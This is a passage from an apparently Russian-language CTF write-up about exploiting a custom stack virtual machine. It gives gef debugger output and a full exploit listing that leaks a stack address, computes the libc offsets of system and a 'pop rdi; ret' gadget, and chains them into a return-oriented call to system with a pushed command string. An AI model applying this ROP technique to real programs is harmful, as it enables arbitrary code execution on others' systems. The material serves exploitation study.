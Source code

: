 ```c

gef➤  jump *0x0000555555555209
Continuing at 0x555555555209.
...

gef➤  p/d ((long long)$rsp - 0x7fffffffdc30) / 8
$4 = 7
```

Получается, чтобы перетереть адрес возврата, нужно 8 раз сделать `pop` и затем `push`'ем положить правильное значение. Учитывая то, что у нас на стеке помимо адреса `pop rdi; ret` должно лежать еще и значение `rdi` и адрес `system`, и то, что мы уже сделали `pop` 8 несколько раз, получаем

```asm
pop d
pop d
push b
push a
push c
```

Объединяя все написанное выше и не забывая в начале эксплоита положить на стек шелл-код, получаем:

```asm
// Шелл-код
mov a 13264972891059052
push a
// Сдвигаем указатель обратно, как было раньше
pop a

// Достаем адрес стека
pop a
sub a 328
// Сдвигаем на 8 байт, чтобы указывало в начало шелл-кода
sub a 8

// Получаем адрес system
pop b
pop b
pop b
pop b
pop b
pop b
pop b
add b 176144

// Получаем адрес pop rdi; ret
mov c b
sub c 174523

// Кладем на стек подряд адрес pop rdi; ret, адрес шелл-кода и адрес system
pop d
pop d
push b
push a
push c
```
